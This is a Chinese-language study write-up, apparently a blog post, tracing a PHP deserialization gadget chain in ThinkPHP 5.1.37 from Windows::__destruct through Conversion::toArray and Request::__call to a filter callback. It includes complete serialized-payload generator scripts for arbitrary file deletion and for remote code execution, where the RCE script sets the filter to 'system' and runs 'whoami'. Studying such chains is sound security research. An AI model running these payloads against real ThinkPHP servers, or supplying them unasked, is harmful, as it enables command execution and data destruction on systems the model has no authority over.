# ThinkPHP 5.1反序列化利用链学习
---

## 安装环境
下面2个都要下载
[framework](https://github.com/top-think/framework/tree/v5.1.37)
[think](https://github.com/top-think/think/tree/v5.1.37)
并且将`framework`下载好后的`framework-5.1.37`改名为为`thinkphp`放到`think-5.1.37`文件夹中
我是直接在sublime中运行think文件调试的


## __destruct
在刚刚改名的文件夹中搜索能被反序列化触发的点`__destruct`（因为在主文件中，此文件夹中的内容已被当做基础文件加载）

其中`Unix.php`和`Connection.php` 中的`__desctruct`都是直接close了，跟了一下没有发现可利用的点           
`Process.php`跟到了`proc_get_status()`要取一个resource值，传入不了

然后跟到`isRunning()`函数中，有个字符串比较

不过!==/===无法触发`__toString()` （!=/==可以，因为!==/===是先判断的类型，类型不同直接返回false了）


最后只能跟`Windows.php`

`__destruct()`中有个`$this->removeFiles();`

乍一看可以看出有个任意文件删除，不过`file_exists()`会把参数作为字符串处理，所以导致可触发`__toString()`
如果将`$filename`传入一个对象，就会先调用该类`__toString`方法

## __toString
搜索`__toString()`
当一个对象被当作字符串对待的时候,会触发这个方法
### think/model/concern/Conversion.php

`Conversion.php`跟到`toArray()`
那么如进一步利用呢
可以在流程比较多的`toArray()`中寻找到一个`$可控变量->方法(参数可控)`来触发某个类的`__call`方法
`toArray()`函数中部分如下所示：

其中192行的`$relation->visible($name);`
首先`$this->append`可控，所以`$key`,`$name`可控，再跟`$relation`,测试可知`$relation`在188行执行后还是为NULL
进入190行的条件判断,`$relation`通过`$this->getAttr($key)`获取
于是跟到`think/model/concern/Attribute.php`


由于这里的`$this->data`可控，容易构造任意返回值
那么就满足了`$relation`和`$name`可控,可以构造一个类传入
接着就需要找类是否有可利用的`visible`方法，
或者没有`visible`方法，但有可利用的`__call`方法


## __call
搜索`__call`
该方法在调用的方法不存在时会自动调用，程序仍会继续执行下去。
### think/Request.php

不过在执行`call_user_func_array()`前有个`array_unshift()`函数把本类对象`$this`放在数组变量`$args`的第一个

只能执行`call_user_func_array(可控, [$this,array('0'=>[可控数组])])`
直接这样好像并没什么好方法构造RCE，这条路走太不通，换条路
`call_user_func_array()`第一个参数为数组且该数组第一个参数为一个对象或类名时，可调用该类中的方法

函数名可控，可以找找当前类有无可触发RCE的函数
跟到`input()`中

有个`array_walk_recursive()`函数

而其中的`filterValue`函数

可以将传入的`$filters`作为回调函数执行
而`$filters`参数由`$filter = $this->getFilter($filter, $default);`而来
跟入`getFilter()`

由于传入的`$filter`为`''`,`is_null()`判断为`false`,`$this->filter`可控，故`$filters`可控
只要`$data`可控便可以RCE了
但是由于不能控制上文所提到的`$args`，直接调用`input()`是不行的
所以可以继续寻找不受`$args`影响的函数进一步调用`input()`
`input()`中有个很关键的`$name = (string) $name;`

这里默认传入的`$name`是一个`object`，强制类型转换会报错，无法继续执行，这里才搞明白为啥参考文章中都用的`param()`


因为`isAjax()`和`isPjax()`中调用`param()`时，传入`param()`的第一个参数(传入`input()`的第二个参数)也就是`$name`可控,不会被报错终止

设置为
```php
    class Request{
        protected $hook = ["visible" => ["Request","isAjax"]];
        protected $filter = "system"; //filterValue()中的 filters数组
        protected $config = ['var_ajax' => '']; //input()中的 $name
        protected $param = ["whoami"]; //input()中的 $data
        function __construct(){
            $this->hook = ["visible"=>[$this,"isAjax"]];
        }
    }
```
最终即可RCE


## 触发
先生成反序列化并url编码的字符串后再在think文件中执行`unserialize(urldecode())`
### 任意文件删除
```php
<?php
namespace think\process\pipes{
    class Windows{
        public function __construct(){
            $this->files = ["/tmp/test/123"];
        }
    }

}

namespace{
    $payload = new think\process\pipes\Windows();
    echo urlencode(serialize($payload));
}
```
### 触发__toString
由于`think\model\concern\Conversion()`是由trait定义的

在写poc时需要注意找到继承此的类`think/Model.php`

可以发现`Model`也是一个抽象类，反序列化时也会报错，从而找到继承`Model`的非抽象类`think/model/Pivot.php`
```php
<?php
namespace think\process\pipes{
    class Windows{
        public function __construct($s){
            $this->files = array($s);
        }
    }

}

namespace think\model\concern{
    trait Conversion{

    }
}

namespace think{
    class Model{
        use model\concern\Conversion;
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model{

    }
}

namespace{
    $string = new think\model\Pivot();
    $payload = new think\process\pipes\Windows($string);
    echo urlencode(serialize($payload));
}

```

### 控制relation和name触发__call
```php
<?php
namespace think\process\pipes{
    class Windows{
        public function __construct($s){
            $this->files = array($s);
        }
    }

}

namespace think\model\concern{
    trait Conversion{
        protected $append = array("key" => array('name' => 'name_value'));
    }

    trait Attribute{
        private $data = []; 
        function __construct(){
            $this->data = array("key" => (new \think\Request())); //key 与上面$append那个key保持相同
        }
    }
}

namespace think{
    abstract class Model{
        use model\concern\Conversion;
        use model\concern\Attribute;
    }
    class Request{
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model{

    }

}

namespace{
    $string = new think\model\Pivot();
    $payload = new think\process\pipes\Windows($string);
    echo urlencode(serialize($payload));
}
```

### printf测试及调用类中方法
```php
<?php
namespace think\process\pipes{
    class Windows{
        public function __construct($s){
            $this->files = array($s);
        }
    }

}

namespace think\model\concern{
    trait Conversion{
        protected $append = array("key" => array('visible' => 'name_value'));
    }

    trait Attribute{
        private $data = []; 
        function __construct(){
            $this->data = array("key" => (new \think\Request())); //key 与上面$append那个key保持相同
        }
    }
}

namespace think{
    abstract class Model{
        use model\concern\Conversion;
        use model\concern\Attribute;
    }
    class Request{
        protected $hook = ["visible"=>"printf"];
        //单参数直接执行自带函数
        //function __construct(){
        //  $this->hook = ["visible"=>[$this,"isAjax"]];
        //}
        //因为call_user_func_array的原因，当有2个参数时：第一个参数为类,第二个参数为方法名
        
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model{

    }

}

namespace{
    $string = new think\model\Pivot();
    $payload = new think\process\pipes\Windows($string);
    echo urlencode(serialize($payload));
}
```

### RCE
```php
<?php
namespace think\process\pipes{
    class Windows{
        public function __construct($s){
            $this->files = array($s);
        }
    }

}

namespace think\model\concern{
    trait Conversion{
        protected $append = array("key" => array('visible' => 'name_value'));
    }

    trait Attribute{
        private $data = []; 
        function __construct(){
            $this->data = array("key" => (new \think\Request())); //key 与上面$append那个key保持相同
        }
    }
}

namespace think{
    abstract class Model{
        use model\concern\Conversion;
        use model\concern\Attribute;
    }
    class Request{
        protected $hook = ["visible" => ["Request","isAjax"]];
        protected $filter = "system"; //filterValue()中的 filters数组
        protected $config = ['var_ajax' => '']; //input()中的 $name
        protected $param = ["whoami"]; //input()中的 $data
        function __construct(){
            $this->hook = ["visible"=>[$this,"isAjax"]];
        }
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model{
    }

}

namespace{
    $string = new think\model\Pivot();
    $payload = new think\process\pipes\Windows($string);
    echo urlencode(serialize($payload));
}
```


## 参考链接
1.[挖掘暗藏ThinkPHP中的反序列利用链](https://blog.riskivy.com/%E6%8C%96%E6%8E%98%E6%9A%97%E8%97%8Fthinkphp%E4%B8%AD%E7%9A%84%E5%8F%8D%E5%BA%8F%E5%88%97%E5%88%A9%E7%94%A8%E9%93%BE/)
2.[ThinkPHP5.1.X反序列化利用链](https://xz.aliyun.com/t/6467)
